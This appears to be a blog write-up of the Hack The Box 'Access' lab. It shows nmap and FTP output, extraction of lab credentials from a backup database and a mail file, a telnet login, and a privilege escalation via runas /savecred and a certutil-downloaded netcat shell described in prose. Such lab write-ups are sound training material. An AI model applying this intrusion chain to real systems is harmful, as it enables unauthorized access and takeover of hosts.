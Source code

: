 ```yaml
---
title: Access - Hack The Box
date: 2022-06-22
categories: [Hack The Box]
tags: []     # TAG names should always be lowercase
---
```


![Desktop View](/assets/hackthebox/access/access-infocard.png)

Access is an enjoyable Windows box marked as medium difficulty. We have anonymous access to the ftp server right from the start. The ftp server contains sensitive files, from which the attacker ultimately extracts login credentials for the exposed telnet service. The attacker thus gains the user's flag. In order to escalate the privileges, we use the *runas* command with the */savecred* option in order to use the saved Administrator credentials - this way we get the root flag.

## **Portscan**
---
```
Nmap scan report for 10.10.10.98
Host is up (0.051s latency).
Not shown: 65532 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: MegaCorp
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## **Website**
---

Nothing interesting on the website. From dirbusting I got one path (aspnet_client/system_web) but it seems to be a rabbit hole and not worth enumerating.

![Desktop View](/assets/hackthebox/access/website.png)

## **Microsoft ftpd**
---
It is possible to log in to ftp anonymously. There are two folders in **/** directory.

    ┌──(root㉿kali)-[/home/…/pentesting/htb/boxes/access]
    └─# ftp 10.10.10.98
    Connected to 10.10.10.98.
    220 Microsoft FTP Service
    Name (10.10.10.98:emil): anonymous
    331 Anonymous access allowed, send identity (e-mail name) as password.
    Password: 
    230 User logged in.
    Remote system type is Windows_NT.
    ftp> ls
    425 Cannot open data connection.
    200 PORT command successful.
    150 Opening ASCII mode data connection.
    08-23-18  09:16PM       <DIR>          Backups
    08-24-18  10:00PM       <DIR>          Engineer

Two files were pulled from the ftp server. It should be mentioned that in order to download the backup.mdb file in its entirety, you have to switch to **binary mode** in the ftp client. To do that, just type *binary* into the console while being in ftp client.

    ┌──(root㉿kali)-[/home/…/pentesting/htb/boxes/access]
    └─# file Access\ Control.zip 
    Access Control.zip: Zip archive data, at least v2.0 to extract, compression method=AES Encrypted
                                                                                                                                
    ┌──(root㉿kali)-[/home/…/pentesting/htb/boxes/access]
    └─# file backup.mdb         
    backup.mdb: Microsoft Access Database

When we try to unzip the Access Control.zip file we get the following error.

    Archive:  Access Control.zip
    skipping: Access Control.pst      unsupported compression method 99

It is due to the fact that **unzip** does not support unzipping AES encrypted files at this time. Only the **7z** tool is able to do this. When trying to extract with the 7z utility, we get a message about the required password. At this point, we do not have a password - we have to get it somehow.  

### Backup.mdb
---
Let's try opening the downloaded backup using Microsoft Access. In **auth_user** table we find credentials.

![Desktop View](/assets/hackthebox/access/admin-pass.png)

We could have also found them by using `strings` on the *backup.mdb* file.

    ┌──(root㉿kali)-[/home/…/pentesting/htb/boxes/access]
    └─# strings backup.mdb | grep access4u@security   
    access4u@security

### Access Control.zip
---

Let's use the found password to unarchive the zip file.

    ┌──(root㉿kali)-[/home/…/pentesting/htb/boxes/access]
    └─# 7z x Access\ Control.zip

    7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
    p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,4 CPUs Intel(R) Core(TM) i5-10600K CPU @ 4.10GHz (A0655),ASM,AES-NI)

    Scanning the drive for archives:
    1 file, 10870 bytes (11 KiB)

    Extracting archive: Access Control.zip
    --
    Path = Access Control.zip
    Type = zip
    Physical Size = 10870

        
    Enter password (will not be echoed):
    Everything is Ok         

    Size:       271360
    Compressed: 10870

As a result we obtained **Access Control.pst: Microsoft Outlook email folder**.

### Access Control.pst
---

Opening the *pst* file with Microsoft Outlook exposes the following message.

![Desktop View](/assets/hackthebox/access/mail.png)

Let's note the credentials

    security : 4Cc3ssC0ntr0ller

## Telnet - user shell
---

Logging in to Microsoft Telnet Server with the obtained credentials. We are getting a low-level access as **security**.

![Desktop View](/assets/hackthebox/access/telnet-login.png)

Getting the user flag.

![Desktop View](/assets/hackthebox/access/user-flag.png)

## Runas - root shell
---

Using the `cmdkey` command to list the stored credentials on the machine.

![Desktop View](/assets/hackthebox/access/cmdkey.png)

We can use `runas` to read the *root.txt* file, but let's create a more stable `netcat` session. Starting http server on the attacker machine and downloading `nc.exe` with `certutil` on the victim.

![Desktop View](/assets/hackthebox/access/file-transfer.png)

Starting to listen on port 9090 and running `nc.exe` as an Administrator.

![Desktop View](/assets/hackthebox/access/runas.png)

Reading the root flag.

![Desktop View](/assets/hackthebox/access/root-flag.png)